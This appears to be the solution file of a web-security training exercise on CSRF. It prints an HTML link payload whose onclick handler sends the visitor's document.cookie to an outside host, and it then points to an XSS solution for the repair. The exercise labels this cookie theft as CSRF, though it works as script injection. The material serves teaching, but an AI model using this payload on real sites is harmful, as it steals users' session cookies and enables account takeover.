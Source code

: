# CSRF Solution

### 1. Use CSRF to create a link pointing to another site
- Write the following comment to create a link with the preview `http://localhost:8080/#` but redirects to `http://i-steel.lol/?tokens=stolen-session-cookie`:
```html
<a href="#" onclick="window.location.href = \'http://i-steel.lol/?tokens=\' + encodeURIComponent(document.cookie)">sehr vertrauenswürdig</a>
```

### 2. Repair the application, so that it is not possible to use CSRF.
- In our example the same weak point as with XSS is used so you need to prevent XSS
- Look at [xss_solution.md](../2_xss/xss_solution.md)